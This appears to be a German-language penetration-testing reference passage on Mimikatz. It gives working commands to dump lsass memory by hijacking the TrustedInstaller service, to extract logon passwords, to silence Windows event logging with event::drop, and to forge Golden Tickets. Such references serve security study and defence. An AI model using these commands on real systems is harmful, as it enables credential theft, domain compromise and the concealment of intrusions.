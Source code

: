 Administratoren haben typischerweise SeDebugPrivilege, das es ihnen ermöglicht, Programme zu debuggen. Dieses Privileg kann eingeschränkt werden, um unbefugte Speicherdumps zu verhindern, eine gängige Technik, die von Angreifern verwendet wird, um Anmeldeinformationen aus dem Speicher zu extrahieren. Selbst wenn dieses Privileg entfernt wird, kann das TrustedInstaller-Konto jedoch weiterhin Speicherdumps mit einer angepassten Dienstkonfiguration durchführen:
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
Dies ermöglicht das Dumpen des `lsass.exe`-Speichers in eine Datei, die dann auf einem anderen System analysiert werden kann, um Anmeldeinformationen zu extrahieren:
```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
## Mimikatz Optionen

Das Manipulieren von Ereignisprotokollen in Mimikatz umfasst zwei Hauptaktionen: das Löschen von Ereignisprotokollen und das Patchen des Ereignisdienstes, um das Protokollieren neuer Ereignisse zu verhindern. Nachfolgend sind die Befehle für die Durchführung dieser Aktionen aufgeführt:

#### Löschen von Ereignisprotokollen

- **Befehl**: Diese Aktion zielt darauf ab, die Ereignisprotokolle zu löschen, um es schwieriger zu machen, böswillige Aktivitäten nachzuverfolgen.
- Mimikatz bietet in seiner Standarddokumentation keinen direkten Befehl zum Löschen von Ereignisprotokollen über die Befehlszeile. Das Manipulieren von Ereignisprotokollen umfasst jedoch typischerweise die Verwendung von Systemtools oder Skripten außerhalb von Mimikatz, um spezifische Protokolle zu löschen (z. B. mit PowerShell oder dem Windows-Ereignisanzeiger).

#### Experimentelles Feature: Patchen des Ereignisdienstes

- **Befehl**: `event::drop`
- Dieser experimentelle Befehl ist darauf ausgelegt, das Verhalten des Ereignisprotokollierungsdienstes zu ändern, wodurch effektiv verhindert wird, dass neue Ereignisse aufgezeichnet werden.
- Beispiel: `mimikatz "privilege::debug" "event::drop" exit`

- Der Befehl `privilege::debug` stellt sicher, dass Mimikatz mit den erforderlichen Berechtigungen arbeitet, um Systemdienste zu ändern.
- Der Befehl `event::drop` patcht dann den Ereignisprotokollierungsdienst.


### Kerberos Ticket Angriffe

### Erstellung eines Goldenen Tickets

Ein Golden Ticket ermöglicht die impersonation mit domänenweiter Zugriffsberechtigung. Wichtiger Befehl und Parameter:

- Befehl: `kerberos::golden`
- Parameter:
- `/domain`: Der Domänenname.
- `/sid`: Der Sicherheitsbezeichner (SID) der Domäne.
- `/user`: Der Benutzername, der impersoniert werden soll.
- `/krbtgt`: Der NTLM-Hash des KDC-Dienstkontos der Domäne.
- `/ptt`: Injektiert das Ticket direkt in den Speicher.
- `/ticket`: Speichert das Ticket zur späteren Verwendung.
